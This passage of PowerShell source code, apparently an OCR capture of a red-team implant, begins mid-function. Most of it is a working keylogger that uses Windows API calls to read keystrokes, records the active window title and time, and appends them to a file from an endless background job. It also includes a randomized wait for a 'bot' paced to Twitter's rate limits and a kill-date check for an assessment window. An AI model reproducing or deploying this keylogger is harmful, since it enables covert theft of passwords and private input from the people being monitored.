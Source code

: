                                     $MappedKey = $ImportDll::MapVirtualKey($VirtualKey, 0x03)
                                    $KeyboardState = New-Object Byte[] 256
                                    $CheckKeyboardState = $ImportDll::GetKeyboardState($KeyboardState)

                                    #create a stringbuilder object
                                    $StringBuilder = New-Object -TypeName System.Text.StringBuilder;
                                    $UnicodeKey = $ImportDll::ToUnicode($VirtualKey, $MappedKey, $KeyboardState, $StringBuilder, $StringBuilder.Capacity, 0)

                                    #convert typed characters
                                    if ($UnicodeKey -gt 0) {
                                        $TypedCharacter = $StringBuilder.ToString()
                                        $LogOutput += ('['+"$($TypedCharacter)"+']')
                                    }
                
                                    #get the title of the foreground window
                                    $TopWindow = $ImportDll::GetForegroundWindow()
                                    [int32] $WindowPid = (Get-Process | Where-Object { $_.mainwindowhandle -eq $TopWindow }).Id
                                    [string] $WindowTitle = (Get-Process -pid $WindowPid).mainWindowTitle

                                    #get the current DTG
                                    $TimeStamp = (Get-Date -Format dd/MM/yyyy:HH:mm:ss:ff)
                
                                    #Create a custom object to store results
                                    $ObjectProperties = @{'Key Typed' = $LogOutput;
                                                          'Time' = $TimeStamp;
                                                          'Window Title' = $WindowTitle}
                                    $ResultsObject = New-Object -TypeName PSObject -Property $ObjectProperties
                
                                    #return results
                                    Out-File -FilePath $OutPath -Append -InputObject $ResultsObject                               
                                }
                            }      
                        }
        
                        catch {Write-Verbose $Error[0]}   
                    }   
                }

            Start-job -InitializationScript $ScriptBlock -ScriptBlock {for (;;) {LogKey}} | Out-Null
        }
        
        #Function to cause the bot to wait for different time periods
        Function RandomWait {
            #Randomly pick a sleeping interval from specified values, Twitter will block anything more than 150 in an hour so no faster than 24 seconds should work
            [int32] $SecondsToWait = (Get-Random -InputObject 24, 29, 33, 39, 48, 69, 81, 193, 263)
            #Start sleeping
            Write-Verbose "Sleeping for $SecondsToWait seconds"
            Start-Sleep -Seconds $SecondsToWait
        }
        
        #Function to make sure this doesn't execute passed your assessment dates
        Function CheckKillDate {
            #Check to see if kill date has passed
            $DateCheck = (Get-Date) -lt (Get-Date $EndDate)
                if ($DateCheck -ne $True)  {
                    Write-Verbose "Kill date has passed. Exiting"
                    Exit
                }
        }           
        